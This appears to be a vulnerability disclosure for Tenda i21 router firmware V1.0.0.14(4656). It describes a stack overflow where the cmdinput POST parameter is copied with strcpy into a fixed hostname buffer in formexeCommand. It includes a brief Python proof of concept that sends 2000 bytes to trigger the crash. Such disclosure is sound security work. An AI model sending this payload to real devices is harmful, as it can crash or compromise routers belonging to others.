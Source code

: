 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2982.html

## Affected version

i21 V1.0.0.14(4656)

## Vulnerability details

In the i21 V1.0.0.14(4656) firmware has a stack overflow vulnerability in the `formexeCommand` function. The `hostname` variable receives the `cmdinput` parameter from a POST request. However, since the user can control the input of `cmdinput`, the statement `strcpy(cfg->hostname, hostname + 5);` can cause a buffer overflow. The user-provided  `cmdinput` can exceed the capacity of the `cfg->hostname` array, triggering this security vulnerability.

![image-20240419204309425](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419204309425.png)

## POC

```python
payload = b"a"*2000

data = {"cmdinput": payload}
response = requests.post(url, data=data)
```

![image-20240419162115799](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419162115799.png)
